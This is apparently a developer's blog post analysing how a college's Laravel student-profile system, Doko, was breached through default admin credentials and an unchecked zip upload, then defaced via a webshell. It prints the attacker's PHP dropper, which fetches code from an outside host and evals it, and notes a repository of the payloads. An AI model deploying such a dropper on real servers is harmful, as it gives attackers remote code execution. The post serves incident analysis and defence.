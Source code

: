 +++
title = "How Deerwalk College's Doko was Hacked"
date = 2024-12-20
description = "Deerwalk College's Student Profile and Exam papers management system Doko was hacked by Indo hackers"
[taxonomies]
categories = ["tech"]
tags = ["deerwalk","cybersecurity"]
[extra]
lang = "en"
toc = true
+++

> TLDR: Insecure credentials and file upload vulnerability in the zip file parsing funtionality gives hackers RCE in the system. Which is then used to Deface the website.

# Context
A few week ago, Deerwalk college's student profile and exam paper management system [Doko](https://doko.dwit.edu.np) was hacked by Indonesian hackers and defaced to show a online casino slot platform. The DevOps team went into damage control mode and changes were made. The first thing we did was change the Policy of the security group of our Amazon EC2 instance to only allow connections from within the college network. We werent quite sure of how the hacker got in or how they managed to deface our application which was built with Laravel.


# Analysis
A few days later I was sent the `access` and `error` logs by the DevOps team to properly analyze the network traffic to figure out how they got in. I saw a Indobesian IP address logging in to our system. How did they get our credentials? Turns out we were using the username `admin` and the password of `password` when we were developing the application and never really got around to changing it. Now the hacker had access to the management/admin panel, great.

# RCE?

How did they get remote code execution on our system? As I was going through our uploads directory and was searching for a potential file upload vulnerability and there it was. A rogue `.php` file (`"Srijal Jaisi.php"`) with a real students name.

We had a "bulk upload" feature into our website where the admin could upload a zip with compressed images and the backend would unzip it and place it in a publicly indexable place (/uploads). However we did not have checks to ensure that the file uploaded was indeed an image file. Which led the hacker who already had access to upload a php file.

{{ figure(src="/img/dropper.png" alt="The Plan" via=" ") }}


# A deeper look

Looking into the `.php` stage 1 dropper file we see
```php
<?php
    $Url = "https://bujang.online/raw/AbSGSvJgKn";
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $Url);
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
    $output = curl_exec($ch);
    curl_close($ch);
    echo eval('?>'.$output);
   ?>
```
The dropper loads the malware from the `https://bujang.online/raw/AbSGSvJgKn` URL and then evals it. Looking at the content from `https://bujang.online/raw/AbSGSvJgKn`. We can see that its heavily obfusticated.

The payload starts with 

```php
<?php
/*   __________________________________________________
    |  Obfuscated by YAK Pro - Php Obfuscator  2.0.14  |
    |              on 2023-09-19 01:16:16              |
    |    GitHub: https://github.com/pk-fr/yakpro-po    |
    |__________________________________________________|
*/
 goto E1NcZ;
 ```

which tells us that they are using a open source php obfusticator called Yak Pro. The payload is over 1500 lines long and full of `goto` statements which makes it impossible to analyse it manually. First thing I did was "prettify" the file such that it's somewhat readable. Once it was readable, I was able to understand and research on some parts of the file. All the variable names were in Indonesian which was more evidence that the hacker was indeed from Indonesia.

Uploading the php file in VirusTotal led us to [this article](https://www.foregenix.com/blog/php-webshell-barner-detect-website-malware) from which we were now certain that this was a sophisticated full administrator access. This is how the hacker had been defacing Doko and when we removed all the static files from the server (images/documents) the hackers webshell access is removed and we no longer have issues.

# Conclusion
There was a LOT that could have been better from our side. For starters we did not change the insecure default credentials, which was a huge factor into how the hacker got in. In our code we did not have file validation and checks for the zip feature. We should have been a lot more careful especially since the app was built with php. We'll be deploying the new version of Doko on the first week of July. If you want to look into the file and research yourself then I've kept all the payloads in [this repository](https://github.com/aashu10sh/doko_hacked).

# Doko 3.0
Doko 3.0 was already in development when the current verson was hacked, this new doko(3.0) is built under the leadership of Krish Devkota with a much modern tech stack and security practices in mind and new doko should be out within the first week of July.
